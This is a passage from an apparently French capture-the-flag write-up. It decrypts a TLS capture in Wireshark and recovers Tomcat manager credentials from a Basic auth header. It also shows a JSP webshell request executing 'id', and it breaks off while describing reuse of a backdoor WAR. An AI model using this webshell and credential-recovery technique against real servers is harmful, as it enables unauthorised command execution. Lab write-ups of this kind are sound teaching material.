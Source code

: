 ## Jerry la souris

On peut ouvrir la capture réseau dans Wireshark, aller des `Préférences > Protocols > TLS` et ajouter la clé privée. Les données chiffrées apparaissent automatiquement en clair. On y voit notemment des requêtes HTTP à destination d'un Tomcat dont l'URL a été personnalisée :

```http
GET /_M@nag3Me/html HTTP/1.1
Host: 192.168.110.140:8443

HTTP/1.1 401 Unauthorized
Server: Apache-Coyote/1.1
WWW-Authenticate: Basic realm="Tomcat Manager Application"
Set-Cookie: JSESSIONID=D47711065D862B1E44A4868B0C8E5480; Path=/_M%40nag3Me; Secure
```

La deuxième requête est authentifiée avec l'envoit d'une authorisation HTTP basic :

```http
GET /_M@nag3Me/html HTTP/1.1
Host: 192.168.110.140:8443
Authorization: Basic dG9tY2F0OlR0XDVEOEYoIyEqdT1HKTRtN3pC

HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
```

C'est bien sûr di base64 qui se décode en :

`tomcat:Tt\5D8F(#!*u=G)4m7zB`

Et une dernière requête semble correspondre à un webshell JSP :

```http
GET /cmd/cmd.jsp?cmd=id HTTP/1.1
Host: 192.168.110.140:8443

HTTP/1.1 200 OK
Server: Apache-Coyote/1.1
Content-Type: text/html

<HTML><BODY>
Commands with JSP
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
Command: id<BR>
uid=104(tomcat6) gid=112(tomcat6) groups=112(tomcat6)
```

Si vous avez bien reconfiguré le Tomcat pour qu'il prenne du TLS alors y accéder avec les identifiants ne devrait pas poser de problèmes.

J'ai tenté de réutiliser la même backdoor WAR que la dernière fois :
